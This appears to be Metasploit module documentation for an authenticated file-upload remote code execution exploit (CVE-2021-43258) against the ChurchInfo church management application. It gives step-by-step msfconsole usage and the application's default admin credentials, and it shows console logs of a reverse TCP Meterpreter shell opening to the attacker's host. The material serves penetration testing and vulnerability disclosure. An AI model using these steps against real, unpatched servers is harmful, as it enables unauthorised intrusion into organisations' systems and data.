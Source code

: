 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo v1.2.13, v1.2.14, and v1.3.0 contain functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258. Version 1.3.0 was the latest version of ChurchInfo at the time
of writing and there is presently no known patch for this issue.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/
and within the zip file downloaded in the `./Documentation` folder. This is a standard PHP and MySQL website.

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

### Module Use
The following steps outline how to use the module.
1. Install the application and register an account.
1. Create some person entries within the database, validate they populate at the page `/SelectList.php?mode=person`.
1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `username`, and `password` values.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

If exploit was successful, output should be something close to the following:

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.240:4444
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: 3
[+] Uploading exploit via Email temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/FjuIxnXKe.php
[!] Don't forget to clean up artifacts at /churchinfo/tmp_attach/FjuIxnXKe.php
[*] Sending stage (39927 bytes) to 192.168.1.72
[*] Meterpreter session 2 opened (192.168.1.240:4444 -> 192.168.1.72:37250) at 2022-11-12 21:38:30 -0500

meterpreter > getuid

Server username: www-data 
```

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Read this now!`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Hello there!`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo 1.3.0
### ChurchInfo v1.3.0 with MySQL 5.7.40 on Ubuntu Linux 18.04.5 LTS
There are several options available. This exploit requires authenticated access
to the email application for ChurchInfo. The default username is `admin` and
password is `churchinfoadmin` based on the installation documentation.
Both `EMAIL_MESG` and `EMAIL_SUBJ` are required to upload the exploit, but
do not have any affect on what type of exploit is launched. `TARGETURI` is
the location the ChurchInfo application is installed.

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run
                                                 
[*] Started reverse TCP handler on 192.168.1.240:4444    
[*] Gathering PHP session cookie                       
[*] SSL is false, leaving protocol as HTTP           
[+] PHP session cookie is PHPSESSID=19rjcc9tbmvj6tpbl7iql0lm0q;
[*] Attempting login                                  
[+] Location header is /churchinfo//CheckVersion.php
[+] Logged into application as admin                  
[*] Attempting exploit                                  
[*] Navigating to add items to cart                  
[+] Items in Cart: 3                              
[+] Uploading exploit via temp email attachment            
[*] Payload name is 0EXot.php                       
[+] Exploit uploaded to /churchinfo/tmp_attach/0EXot.php
[+] Executing payload with GET request                  
[*] Sending stage (39927 bytes) to 192.168.1.72    
[+] Deleted 0EXot.php                               
[*] Meterpreter session 20 opened (192.168.1.240:4444 -> 192.168.1.72:37656) at 2022-11-18 06:31:30 -0500

meterpreter > getuid                                   
Server username: www-data
```
